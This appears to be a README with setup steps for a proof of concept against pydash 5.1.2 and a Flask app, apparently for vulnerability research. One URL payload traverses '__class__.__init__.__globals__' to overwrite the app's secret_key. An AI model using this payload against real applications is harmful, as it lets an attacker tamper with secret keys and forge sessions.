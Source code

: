 
**Instructions for pydash 5.1.2 and flask PoC**

**Prerequisites:** python3.x, pip

* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: [http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337']
    3. result will be printed in the terminal window running the flask server
